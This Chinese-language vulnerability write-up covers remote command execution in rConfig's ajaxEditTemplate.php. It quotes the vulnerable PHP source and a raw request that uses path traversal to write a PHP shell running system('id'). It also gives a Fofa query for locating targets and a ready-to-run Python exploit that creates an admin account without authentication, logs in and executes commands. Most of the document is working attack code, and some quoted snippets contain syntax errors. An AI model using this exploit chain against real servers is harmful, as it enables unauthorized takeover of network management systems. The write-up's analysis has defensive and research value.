


# rConfig ajaxEditTemplate.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxEditTemplate.php 存在后台远程命令执行

## 漏洞影响

```
rConfig
```

## 网络测绘

```
app="rConfig"
```

## 漏洞复现

漏洞文件为 **rconfig/www/lib/ajaxHandlers/ajaxEditTemplate.php**

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/classes/spyc.class.php");
require_once("/home/rconfig/config/functions.inc.php");

$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
    $ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir.$fileName;

    $username = $_SESSION['username'];
    require_once("../../../classes/db2.class.php");
    require_once("../../../classes/ADLog.class.php");
    $db2 = new db2();
    $log = ADLog::getInstance();

    if (!is_dir('templates')) {
        mkdir('templates');
        chown('templates', 'apache');
    }

    // if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444);
 
    $db2->query("UPDATE `templates` SET `fileName` = :fileName, `name` = :name, `desc` = :desc, `dateLastEdit` = NOW(), `addedby` = :username WHERE `id` = :id");
    $db2->bind(':id', $_POST['id']);
    $db2->bind(':fileName', $fullpath);
    $db2->bind(':name', $ymlData['main']['name']);
    $db2->bind(':desc', $ymlData['main']['desc']);
    $db2->bind(':username', $username);

    $queryResult = $db2->execute();
    /* Update successful */
    if ($queryResult && file_exists($fullpath)) {
        $response = "success";
        $log->Info("Success: Template: ".$fullpath." edited in templates folder");
    }
    /* Update failed */ else {
        $response = "failed";
        $log->Warn("Success: Could not edit Template ".$fullpath." in templates folder");
    }
    echo json_encode($response);    
}  // end session check
```

关键代码如下

```php
// if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444;
```

$fileName -->  $fullpath ---> 写入文件，其中 fileName参数 POST传入时没有过滤导致目录可上传任意位置

```php
$ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir+ .$fileName;
```


```php
$filehandle = fopen($fullpath, 'w+');
file_put_contents($fullpath, $_POST['code']);
```

POST code 传参写入文件 test.php.yml, 请求包如下

```plain
POST /lib/ajaxHandlers/ajaxEditTemplate.php HTTP/1.1
Host: 
Cookie: PHPSESSID=fv8j4c6r4gofug1vr9v3efdvj7
Content-Length: 81
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: https://176.62.195.243
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://176.62.195.243/lib/ajaxHandlers/ajaxEditTemplate.php

fileName=../www/test.php&code=<?php echo system('id');?>&id=1
```



这里写入文件 **test.php.yml**,并使用 **../** 跳出限制的目录，访问 test.php.yml 实际访问了 test.php，执行id命令


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from requests_toolbelt.multipart.encoder import MultipartEncoder

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: rConfig ajaxEditTemplate.php 后台远程命令执行               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/lib/crud/userprocess.php"
    referer = target_url + "useradmin.php"
    ran_number = random.randint(1, 999)
    origin = target_url
    multipart_data = MultipartEncoder(
        fields={
            'username': 'testtest{}'.format(ran_number),
            'password': 'testtest@{}'.format(ran_number),
            'passconf': 'testtest@{}'.format(ran_number),
            'email': 'testtest{}@test.com'.format(ran_number),
            'ulevelid': '9',
            'add': 'add',
            'editid': ''
        }
    )
    headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer,
               "Origin": origin}
    cookies = {'PHPSESSID': 'test'}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(vuln_url, data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)
        if "error" not in response.text:
            username = 'testtest{}'.format(ran_number)
            password = 'testtest@{}'.format(ran_number)
            print("\033[36m[o] 成功创建账户 testtest{}/testtest@{} \033[0m".format(ran_number, ran_number))
            POC_2(target_url, username, password)
        else:
            print("\033[31m[x] 创建失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, username, password):
    print("\033[36m[o] 正在登陆账户..... \033[0m")
    vuln_url = target_url + "/lib/crud/userprocess.php"
    headers = {
        'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": target_url + "deviceConnTemplates.php",
        "Origin": target_url,
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = {
        'user': username,
        'pass': password,
        'sublogin': '1'
    }
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在尝试执行 id....\033[0m")
        with requests.Session() as s:
            p = s.post(target_url + '/lib/crud/userprocess.php', data=data, verify=False)
            if "Stephen Stack" in p.text:
                print("\033[31m[x] 登录失败 \033[0m")
            else:
                data = "fileName=..%2Fwww%2Ftest.php&code=%3C%3Fphp+echo+system%28%27id%27%29%3B%3F%3E&id=1"
                rce = s.post(target_url + '/lib/ajaxHandlers/ajaxEditTemplate.php', verify=False, data=data,
                             headers=headers)
                if "success" in rce.text:
                    response = s.get(target_url + '/test.php.yml', verify=False)
                    print("\033[36m[o] 成功执行 id, 响应为:\n{} \033[0m".format(response.text))
                else:
                    print("\033[31m[x] 请求失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

